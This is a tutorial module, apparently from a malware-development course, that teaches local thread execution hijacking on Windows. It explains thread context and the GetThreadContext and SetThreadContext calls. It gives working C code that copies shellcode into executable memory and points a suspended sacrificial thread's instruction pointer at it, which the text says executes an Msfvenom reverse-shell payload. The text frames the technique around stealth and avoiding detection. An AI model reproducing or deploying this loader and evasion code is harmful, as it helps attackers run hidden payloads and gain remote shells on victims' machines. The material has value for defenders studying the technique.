



Introduction
Thread Execution Hijacking is a technique that can execute a payload without the need of creating a new thread. The way this technique works is by suspending the thread and updating the register that points to the next instruction in memory to point to the start of the payload. When the thread resumes execution, the payload is executed.
This module will use the Msfvenom TCP reverse shell payload rather than the calc payload. The reverse shell payload is used because it keeps the thread running after execution whereas the calc payload would terminate the thread after execution. Regardless, both payloads work but having the thread still running after execution allows for further analysis.
Thread Context
Before the technique can be explained, thread context must be understood. Every thread has a scheduling priority and maintains a set of structures that the system saves to the thread's context. Thread context includes all the information the thread needs to seamlessly resume execution, including the thread's set of CPU registers and stack.
GetThreadContext and SetThreadContext are two WinAPIs that can be used to retrieve and set a thread's context, respectively.
GetThreadContext populates a CONTEXT structure that contains all the information about the thread. Whereas, SetThreadContext takes a populated CONTEXT structure and sets it to the specified thread.
These two WinAPIs will play a crucial role in thread hijacking and therefore it would be beneficial to review the WinAPIs and their associated parameters.
Thread Hijacking vs Thread Creation
The first question that needs to be addressed is why hijack a created thread to execute a payload instead of executing the payload using a newly created thread.
The main difference is payload exposure and stealth. Creating a new thread for payload execution will expose the base address of the payload, and thus the payload's content because a new thread's entry must point to the payload's base address in memory. This is not the case with thread hijacking because the thread's entry would be pointing at a normal process function and therefore the thread would appear benign.
CreateThread WinAPI
CreateThread's third parameter, LPTHREAD_START_ROUTINE lpStartAddress, specifies the address of the thread's entry. Using thread creation, lpStartAddress will point to the payload's address. On the other hand, thread hijacking will point to a benign function.
HANDLE CreateThread(
[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes,
[in] SIZE_T dwStackSize,
[in] LPTHREAD_START_ROUTINE lpStartAddress, // Thread Entry
[in, optional] __drv_aliasesMem LPVOID lpParameter,
[in] DWORD dwCreationFlags,
[out, optional] LPDWORD lpThreadId
);The description of the third parameter is shown below.

Local Thread Hijacking Steps
This section describes the required steps to perform thread hijacking on a thread created in the local process.
Creating The Target Thread
The prerequisite to performing thread hijacking is finding a running thread to hijack. It should be noted that it's not possible to hijack a local process's main thread because the targeted thread needs to first be placed in a suspended state. This is problematic when targeting the main thread since it is the one that executes the code and cannot be suspended. Therefore, do not target the main thread when performing local thread hijacking.
This module will demonstrate hijacking a newly created thread. CreateThread will initially be called to create a thread and set a benign function as the thread's entry. Afterward, the thread's handle will be used to perform the necessary steps to hijack the thread and execute the payload instead.
Modifying The Thread's Context
The next step is to retrieve the thread's context in order to modify it and make it point at a payload. When the thread resumes execution, the payload is executed.
As previously mentioned, GetThreadContext will be used to retrieve the target thread's CONTEXT structure. Certain values of the structure will be modified to modify the current thread's context using SetThreadContext. The values that are being changed in the structure are the ones that decide what the thread will execute next. These values are the RIP (for 64-bit processors) or EIP (for 32-bit processors) registers.
The RIP and EIP registers, also known as the instruction pointer register, point to the next instruction to execute. They are updated after each instruction is executed.
Setting ContextFlags
Notice how the GetThreadContext's second parameter, lpContext, is marked as an IN & OUT parameter. The Remarks section in Microsoft's documentation states:
The function retrieves a selective context based on the value of the ContextFlags member of the context structure.
Essentially Microsoft is stating that CONTEXT.ContextFlags must be set to a value before calling the function. ContextFlags is set to the CONTEXT_CONTROL flag to retrieve the value of the control registers.
Therefore, setting CONTEXT.ContextFlags to CONTEXT_CONTROL is required to perform thread hijacking. Alternatively, CONTEXT_ALL can also be used to perform thread hijacking.
Thread Hijacking Function
RunViaClassicThreadHijacking is a custom-built function that performs thread hijacking. The function requires 3 arguments:
hThread - A handle to a suspended thread to be hijacked.pPayload - A pointer to the payload's base address.sPayloadSize - The size of the payload.BOOL RunViaClassicThreadHijacking(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
PVOID pAddress = NULL;
DWORD dwOldProtection = NULL;
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_CONTROL
};
// Allocating memory for the payload
pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL){
printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Copying the payload to the allocated memory
memcpy(pAddress, pPayload, sPayloadSize);
// Changing the memory protection
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the original thread context
if (!GetThreadContext(hThread, &ThreadCtx)){
printf("[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Updating the next instruction pointer to be equal to the payload's address
ThreadCtx.Rip = pAddress;
// Updating the new thread context
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Creating The Sacrificial Thread
Since RunViaClassicThreadHijacking requires a handle to a thread, the main function would need to supply that. As previously mentioned, the targeted thread needs to be in a suspended state for RunViaClassicThreadHijacking to successfully hijack the thread.
The CreateThread WinAPI will be used to create a new thread. The new thread should appear as benign as possible to avoid detection. This can be achieved by making a benign function that gets executed by this newly created thread.
The next step is to suspend the newly created thread for GetThreadContext to succeed. This can be done in two ways:
CREATE_SUSPENDED flag in CreateThread's dwCreationFlags parameter. That flag will create the thread in a suspended state.The first method will be used since it utilizes fewer WinAPI calls. However, both methods will require the thread to be resumed after executing RunViaClassicThreadHijacking. This will be achieved using the ResumeThread WinAPI which only requires the handle of the suspended thread.
Main Function
To reiterate, the main function will create a sacrificial thread in a suspended state. The thread will be initially running a benign dummy function which will then be hijacked using RunViaClassicThreadHijacking to run the payload.
int main() {
HANDLE hThread = NULL;
// Creating sacrificial thread in suspended state
hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE) &DummyFunction, NULL, CREATE_SUSPENDED, NULL);
if (hThread == NULL) {
printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Hijacking the sacrificial thread created
if (!RunViaClassicThreadHijacking(hThread, Payload, sizeof(Payload))) {
return -1;
}
// Resuming suspended thread, so that it runs our shellcode
ResumeThread(hThread);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Demo
The mainCRTStartup is the main thread running the main function and the DummyFunction thread is the sacrificial thread.

The image below shows the hijacked process establishing a network connection. This means the payload was successfully executed.

Successful reverse shell connection.
